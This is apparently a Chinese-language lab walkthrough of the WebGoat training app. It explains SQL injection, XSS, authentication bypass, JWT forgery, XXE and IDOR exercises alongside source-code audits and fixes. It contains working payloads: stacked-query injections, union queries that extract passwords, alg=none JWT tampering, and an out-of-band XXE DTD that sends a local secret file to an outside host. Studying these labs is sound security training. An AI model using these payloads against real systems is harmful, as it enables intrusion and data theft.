# WebGoat

## SQL注入

### intro

#### 第一关

简单介绍SQL数据库查询语言



要求查询Bob Franco的部门(department)，根据上方的Employees表可直接用`select`查询:

```sql
select department from employees where first_name='Bob' and last_name='Franco';
```


查看源码



根据`completed(@RequestParam String query)`方法可知此处是直接将用户输入的query语句带入数据库中查询。

`injectableQuery(String query)`方法直接进行原生的JDBC查询，并设置了 `TYPE_SCROLL_INSENSITIVE`: 也就是对底层数据变换不敏感； 还设置了 `CONCUR_READ_ONLY`————只读，然后通过`statement.executeQuery`直接执行查询语句，所以此处的sql查询无任何过了。

根据`results.getString("department").equals("Marketing")`可知只要查询出的`department`字符串等于`Marketing`即可返回success，所以可构造语句

```sql
select Marketing as department from employees;
```


#### 第二关

介绍什么是数据库操作语言(DML)，用于执行查询的语法，如增删改查等。



要求将Tobi Barnett的部门改为Sales，可使用`update`

```sql
update employees set department='Sales' where first_name='Tobi' and last_name='Barnett';
```



接着看源码缺陷



同样是直接执行用户输入的query语句，然后会自动查询Barnett的表数据results，当查询出Barnett的department为Sales时返回success，所以可直接将所有职工的department都更新为Sales，这样同样可满足查询逻辑

```sql
update employees set department='Sales'
```



#### 第三关

介绍什么是数据库定义语言(DDL)，创建或删除表格/索引。



题目要求在表employees中添加列phone，可使用`alter`

```sql
alter table employees add phone varchar(20);
```



当执行过用户的query语句后能从employees表中查询出results也就说phone字段即可成功



#### 第四关

介绍什么是数据库控制语言(DCL)，授权，角色控制等



该处没有明显提示，直接看源码

源码中创建了unauthorized_user用户，并执行用户传入的query语句



要想返回success需要checkSolution返回true，而checkSolution只认unauthorized_user是否对表grant_rights有权限记录，**不检查表是否真的存在、也不检查权限到底是 SELECT 还是 ALL PRIVILEGES**，只要有一条就行。



所以可构造语句

```sql
#对unauthorized_user授予表grant_rights的select权限
grant select on grant_rights to unauthorized_user;
#也可对unauthorized_user授予表grant_rights的all权限
grant all on grant_rights to unauthorized_user;
```

#### 第五关

题目给出对SQL语句进行拼接的选项，要求从用户表中查询出所有用户



原语句为

```sql
SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith or 1 = 1'
```

可构造万能密码

```sql
SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
#该语句等价于
SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or true
#也就是永真语句，or后面永远为真所以查询语句始终为真
```

源码中用户可控参数的SQL语句为

```sql
SELECT * FROM user_data WHERE first_name = 'John' and last_name = '" + accountName + "'
#" + accountName + "中的accountName为可控参数
```



源码中返回success的条件为results的行数大于等于6，构造永真语句可查询出所有内容，满足条件

#### 第六关

题目要求对登录框进行拼接，从用户表中查询出所有数据，通过 ' 拼接发现User_Id出现报错，所以用户可控参数应该是User_Id



要查询所有数据同样可以构造万能密码，根据题目是数字型注入所以可构造1 or 1=1



返回success的条件与之前一样，所以要构造万能密码



但对哪个参数构造万能密码，怎么构造，就该看源码中SQL的query语句是怎样写的

读源码可知Login_Count参数使用?作占位符，使用预编译在后面使用setInt强制转换为整数型，所以用户真正可控的用于拼接原SQL语句的参数是accountName，然后原SQL语句为数字型，所以直接构造1 or 1=1即可



#### 第七关

该关卡为字符型SQL注入，要求查询出所有同事的薪水，**TAN**为身份验证对应不同人的数据，所以此处为注入点



一个 ' 报错，两个 ' 正常回显，这是明显的 ' 闭合的SQL注入




为了查询出所有其他同事，同样在此处构造永真查询



用户传入的参数为name、auth_tan，对参数auth_tan构造字符型的万能密码



#### 第八关

本章介绍了查询链(Query Chaining)，使用 ; 分隔执行多个SQL语句，也就是堆叠注入



要求修改John **Smith**的薪水高于表中其他人的薪水总和，直接配合update使用堆叠注入，构造语句

```Sql
#TAN是否正确不重要，因为目的是 ; 后的update语句，将薪水更新即可
1';update employees set salary=9999999 where last_name='Smith'--
```



SQL查询语句与上关相同



#### 第九关

这关比较简单直接，要求删除日志表**access_log** 



先通过单引号拼接判断为 ' 闭合的字符型注入





使用堆叠注入先闭合原SQL语句再删除



用户可控参数为action，使用自写的tableExists函数判断表access_log是否还存在，不存在返回success



### Advanced

#### 第一关

本题已知有两张数据表，user_data和user_system_data，要求从表中获取所有数据，且获得dave的密码



同样验证得知name处为字符型注入





尝试万能密码，成功获得表数据



很明显该表没有dave的数据，所以应该从另一张表user_system_data中查出，解法一使用堆叠注入



解法二为使用联合查询，这里已知表user_data为7列，表user_system_data 为4列，拼接到SQL语句是带入到查询user_data表的，所以想要查询到user_system_data 需要将列数补齐，否则会报错，使用语句

```sql
1' or 1=1 union select userid,user_name,password,null,null,cookie,null from user_system_data--
```

可控参数为accountName，正则匹配是否使用了union但并未做过滤




#### 第二关

通过单引号拼接判断register功能下的username处存在注入点，根据回显的内容可判断为布尔盲注




审计源码发现先从数据库中查询用户名是否重合，但select语句未经过预编译，所以可通过多个单引号闭合判断注入点，1'造成报错抛出异常，而1''闭合sql语句成功创建用户；创建用户的INSERT语句经过预编译。



所以此处同样有两种解法，直接通过布尔注入爆破出Tom的密码，或爆破出表名后使用堆叠注入修改Tom的密码

### 修复

#### 静态查询



```sql
#通过session.getAttribute获取UserID而不是直接拼接用户可控的参数
String query = "SELECT * FROM users WHERE user = '" + session.getAttribute("UserID") + "'";
```

#### 预编译

```java
public static String loadAccount() {
  // Parser returns only valid string data
  String accountID = getParser().getStringParameter(ACCT_ID, "");
  String data = null;
  String query = "SELECT first_name, last_name, acct_id, balance FROM user_data WHERE acct_id = ?";
  try (Connection connection = dataSource.getConnection()) {
       PreparedStatement statement = connection.prepareStatement(query)) {
     statement.setString(1, accountID);
     ResultSet results = statement.executeQuery();
     if (results != null && results.first()) {
       results.last(); // Only one record should be returned for this query
       if (results.getRow() <= 2) {
         data = processAccount(results);
       } else {
         // Handle the error - Database integrity issue
       }
     } else {
       // Handle the error - no records found }
     }
  } catch (SQLException sqle) {
    // Log and handle the SQL Exception }
  }
  return data;
}
```

## XSS

要求找到反射型XSS注入点



通过源码可知用户可控的参数有totalSale和field1，但totalSale为一个计算式，所以会返回前端的参数只有field1，且没有过滤，直接进行XSS注入即可





## Authentication Bypasses

问题是在不记得自己的密保问题的前提下绕过验证逻辑


根据源码可知要返回success则标红处需为true



跟进`AccountVerificationHelper.verifyAccount()`查看





有三处验证逻辑

```java
#提交问题的集合数需等于存储的安全问题的集合数也就是 2
submittedQuestions.entrySet().size() != secQuestionStore.get(verifyUserId).size()
#若提交字段中包含secQuestion0，则提交的secQuestion0需与记录的secQuestion0答案相同
(submittedQuestions.containsKey("secQuestion0") && !submittedQuestions.get("secQuestion0").equals(secQuestionStore.get(verifyUserId).get("secQuestion0")))
#若提交字段中包含secQuestion1，则提交的secQuestion1需与记录的secQuestion1答案相同
submittedQuestions.containsKey("secQuestion1") && !submittedQuestions.get("secQuestion1").equals(secQuestionStore.get(verifyUserId).get("secQuestion1")))
```

三处皆满足即可成功通过验证逻辑，但问题是不知道密保问题所以就需要绕过验证逻辑，漏洞点出现在`VerifyAccount.parseSecQuestions()`，该方法只要字段中包含`secQuestion`即可将其字段名传为集合中的value，将它的值传为集合中的key，所以可以构造新的两个secQuestion使其数量与存储的安全问题数量相符合即可绕过验证逻辑



构造`payload:secQuestiona=1&secQuestionb=1`



## JWT

### 第一关

查看源码，此处是生成token的部分



```java
String token =
          Jwts.builder()		//创建JWT对象
              .setClaims(claims)//设置主题
              .signWith(io.jsonwebtoken.SignatureAlgorithm.HS512, JWT_PASSWORD)//设置密钥，生成签名
              .compact();//生成token
```

然后查看漏洞代码处，先是验证token是否为空，然后将isAdmin转换为Boolean数据类型，当claims的admin为true即为true，最后若判断isAdmin为true则会将vote值全部还原并返回success



此外可找到jwt密钥为victory



先抓取带有token的数据包


修改为管理员token


再次发包即可投票


### 第二关

主要介绍了jwt空算法漏洞并给出了漏洞代码与修复代码


使用 `parseClaimsJws` ，alg 为 none 会直接抛出异常

使用 `parse` ，alg 为 none 则是判断是否为某个身份的依据。将 alg 设置成 none，就可以很好的绕过

### 第三关

要返回success首先claims字段需要包含所有`expectedClaims`，然后claims字段中的`username`需要与`WEBGOAT_USER`相同


`JWT_SECRET`是从`SECRETS`中随机编码的，直接爆破获得密钥并将`username`修改为`WebGoat`即可


### 第四关

要返回success需满足user字段等于Tom，然后alg字段等于none


再看一下Token的生成逻辑，此处指定生成Jerry用户的Token，因为不知道密钥所以无法直接篡改user


绕过逻辑就是第二关所提到的使用 `parse`解析jwt token ，若alg 为 none 则会将其作为无签名的两段式令牌解析，所以便可合理的返回success


修改后生成Token并将第三段签名删除便可绕过验证逻辑


此处要么使用更安全的`parseClaimsJws`解析JWT，要么在使用`parse`解析前先进行白名单验证

## XXE

### SimpleXXE

题目要求通过XXE列出文件的根目录


先随便发个评论并抓包，可看出是一个标准的xml格式的评论


XML允许在DTD中用<!ENTITY x SYSTEM "url/file"> 定义“外部实体”。解析器遇到引用 &x; 时，会自动访问该 URL/文件并把内容原地展开。

所以要读出本地根目录的文件可以构造一下外部实体

```xml
<!DOCTYPE any [<!ENTITY test SYSTEM "file:///C:\">]>
```


还是从源码中看为什么会产生该漏洞，根据路由xxe/simple可知触发漏洞的函数是`createNewComment`，而要返回success则需要`checkSolution(comment)`为true


跟进`checkSolution`，可知源码要求返回的评论包含Linux或Windows的根目录文件特征


造成漏洞的方法是`parseXml`，该方法默认禁用DTD，但该处允许使用DTD


- JAXB 作为JDK的一部分，能将Java对象和XML相互转换

- `JAXBContext`是整个JAXB API的入口，用于构建JAXB实例

- Marshaller接口，将Java对象序列化为XML数据

- Unmarshaller接口，将XML数据反序列化为Java对象

  ```java
  //将Comment对象注册，创建为JAXB实例，实例名为jc
  var jc = JAXBContext.newInstance(Comment.class);
  ```

产生XXE的代码原因

```java
var xsr = xif.createXMLStreamReader(new StringReader(xml));

var unmarshaller = jc.createUnmarshaller();		//创建Unmarshaller对象
return (Comment) unmarshaller.unmarshal(xsr);	//使用unmarshal处理返回的值xsr
```

当把XML格式的字符串传递给Unmarshaller接口转变为Java对象时会解析一遍XML，若传入的值可控就会造成XXE注入攻击

#### 修复

因为解析XML时没有任何限制所以会造成XXE注入，所以修复禁用外部实体和DTD即可

```java
package XXE;

import lombok.var;

import javax.xml.bind.JAXBContext;
import javax.xml.bind.JAXBException;
import javax.xml.stream.XMLInputFactory;
import javax.xml.stream.XMLStreamException;
import java.io.StringReader;

public class XXERepair {

    public void Repair() throws JAXBException, XMLStreamException {
        String xml = "<?xml version=\"1.0\"?>\n" +
                "<!DOCTYPE doc [ \n" +
                "<!ENTITY xxe SYSTEM \"file:///etc/passwd\">\n" +
                "]><comment><text>&xxe;</text></comment>";
        var jc = JAXBContext.newInstance(Comment.class);
        // 创建了我们的工厂 读取xml的一个工厂
        var xif = XMLInputFactory.newInstance();
        // 不支持外部实体
       // 后面两行是多加的代码 
		xif.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false);
        // 不支持dtd
        xif.setProperty(XMLInputFactory.SUPPORT_DTD, false);
        var xsr = xif.createXMLStreamReader(new StringReader(xml));
        // 将我们的xml 变成我们的java对象
        var unmarshaller = jc.createUnmarshaller();
        unmarshaller.unmarshal(xsr);

    }


    public static void main(String[] args) throws JAXBException, XMLStreamException {

        XXERepair test = new XXERepair();
        test.Repair();
    }
}
```

### ContentTypeAssignment

此题与上题一样只是用JSON来传递评论数据


看源码可知其他地方都一样只是多了一项判断是否为XML文件类型


所以只需要抓包修改`Content-Type`然后使用同样的payload即可


### BlindSendFileAssignment

使用put将fileContents作为value赋值给user作为key


通过getOrDefault获取user的defaultValue并赋值给fileContentsForUser，如果comment中包含值则返回success


这一段是无回显的代码，不会直接返回通过file协议读出的内容，所以需要一个带出内容的DTD

```java
Comment comment = comments.parseXml(commentStr, false);
if (fileContentsForUser.contains(comment.getText())) {
    comment.setText("Nice try, you need to send the file to WebWolf");
}
comments.addComment(comment, user, false);
```

上传一个恶意的DTD文件evil.dtd到WebWolf中

```xml
<!ENTITY % file SYSTEM "file:///C:\Users\85885/.webgoat-2025.4-SNAPSHOT//XXE/123456/secret.txt">
<!ENTITY % all "<!ENTITY secret SYSTEM 'http://192.168.13.1:9090/WebWolf/files/123456/%file;'>">
%all;
```

上传，评论并抓包，构造payload

```xml
<?xml version="1.0"?>
<!DOCTYPE convert [
  <!ENTITY % remote SYSTEM "http://192.168.13.1:9090/WebWolf/files/123456/evil.dtd">
  %remote;
]>
<comment><text>&secret;</text></comment>
```


获取字符后作为comment输入即可

## Broken Access Control

### IDORLogin

这里没有使用数据库而是使用HashMap存储数据


通过逻辑很简单，username等于tom，password等于cat即可


关键代码为这一行

```java
if ("tom".equals(username) && idorUserInfo.get("tom").get("password").equals(password))
```

### IDORDiffAttributes

题目要求比对未返回到前端的内容


通过burp发包，看到未打印的属性role和userid，直接输入即可


源码部分就是简单的if判断


### IDORViewOwnProfileAltUrl

题目要求拼接路径越权查看其它人的profile，可以配合上题获得的userid查看


源码逻辑也很简单，将输入的路径去掉 / 存储进数组，然后按数组顺序比较，最后返回对应userid的用户profile


### IDORViewOtherProfile

要求越权查看和修改他人信息


抓包爆破即可


成功获得userid:2342388

